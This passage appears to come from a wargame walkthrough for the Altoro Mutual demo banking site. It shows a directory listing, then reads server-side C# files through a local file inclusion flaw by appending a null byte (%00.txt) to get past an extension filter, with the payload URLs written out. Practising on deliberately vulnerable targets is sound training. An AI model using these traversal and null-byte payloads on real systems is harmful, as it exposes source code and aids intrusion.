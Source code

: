You'll find a **directory listening** at <http://demo.testfire.net/bank/> which will show you a lot of information about the applications functionalities.

~~~
 5/31/2007 11:10 AM        <dir> 20060308_bak
 1/12/2011 10:14 PM         1831 account.aspx
 1/12/2011 10:14 PM         4277 account.aspx.cs
 1/12/2011 10:14 PM          771 apply.aspx
 1/12/2011 10:14 PM         2828 apply.aspx.cs
 1/12/2011 10:14 PM         2236 bank.master
 1/12/2011 10:14 PM         1134 bank.master.cs
 1/12/2011 10:14 PM          904 customize.aspx
 1/12/2011 10:14 PM         1955 customize.aspx.cs
 1/12/2011 10:14 PM         1806 login.aspx
 1/12/2011 10:14 PM         5847 login.aspx.cs
 1/12/2011 10:14 PM           78 logout.aspx
 1/12/2011 10:14 PM         3361 logout.aspx.cs
 1/12/2011 10:14 PM          935 main.aspx
 1/12/2011 10:14 PM         3951 main.aspx.cs
 5/31/2007 11:10 AM        <dir> members
 1/12/2011 10:14 PM         1414 mozxpath.js
 6/21/2011 10:29 PM          779 queryxpath.aspx
 1/12/2011 10:14 PM         1838 queryxpath.aspx.cs
 1/12/2011 10:14 PM          499 servererror.aspx
 1/12/2011 10:14 PM         1700 transaction.aspx
 1/12/2011 10:14 PM         3826 transaction.aspx.cs
 1/12/2011 10:14 PM         3930 transfer.aspx
 1/12/2011 10:14 PM         3505 transfer.aspx.cs
 1/12/2011 10:14 PM           82 ws.asmx
~~~

Since the application is written in C# you might want to see whats behind the *.cs files. However clicking on the files will trigger following error message:

~~~
An Error Has Occurred
Summary:
An unknown error occurred.
Error Message:
~~~

So you'll have to find another way to get to the files. We'll use the **file inclusion vulnerability** found before to do that.

<http://demo.testfire.net/default.aspx?content=../bank/login.aspx.cs> will result in

~~~
Error! File must be of type TXT or HTM
~~~

We'll have to bypass the filter in order to get the file. Remember the **null string vulnerability**? Here we go: [http://demo.testfire.net/default.aspx?content=../bank/login.aspx.cs%00.txt][3].

That will show you the content of */bank/login.aspx.cs*. Now you can inspect the the source code to find more vulnerabilities.


 [3]: http://demo.testfire.net/default.aspx?content=../bank/login.aspx.cs%EF%BF%BD.txt
 [7]: http://www.portswigger.net/burp/
 [8]: http://dornea.nu/wargames/altoro-mutual?action=AttachFile&do=get&target=login_sql_injection.png "attachment:login_sql_injection.png"
 [9]: http://demo.testfire.net/default.aspx?content=../bank/main.aspx.cs%EF%BF%BD.txt